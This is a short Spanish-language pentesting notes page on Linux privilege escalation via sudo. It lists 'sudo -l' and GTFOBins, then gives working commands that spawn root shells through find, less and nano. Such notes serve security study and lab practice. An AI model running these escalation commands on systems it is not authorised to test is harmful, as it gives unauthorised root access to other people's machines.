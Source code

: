# Sudo

Si al realizar un

```bash
sudo -l
```

<figure><img src="../../.gitbook/assets/20231008020246.png" alt=""><figcaption></figcaption></figure>

Vemos que tenemos permiso de ejecutar varios binarios, una web la cual es muy util en estos casos de **gftobins**

{% embed url="https://gtfobins.github.io" %}

### **Explotación de binarios**

#### **find**

```shell
sudo find . -exec /bin/sh \; -quit
```

<figure><img src="../../.gitbook/assets/20231008020442.png" alt=""><figcaption></figcaption></figure>

**less**

```
sudo less /etc/profile
!/bin/sh
```

<figure><img src="../../.gitbook/assets/20231008021855.png" alt=""><figcaption></figcaption></figure>

**nano**

```shell
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

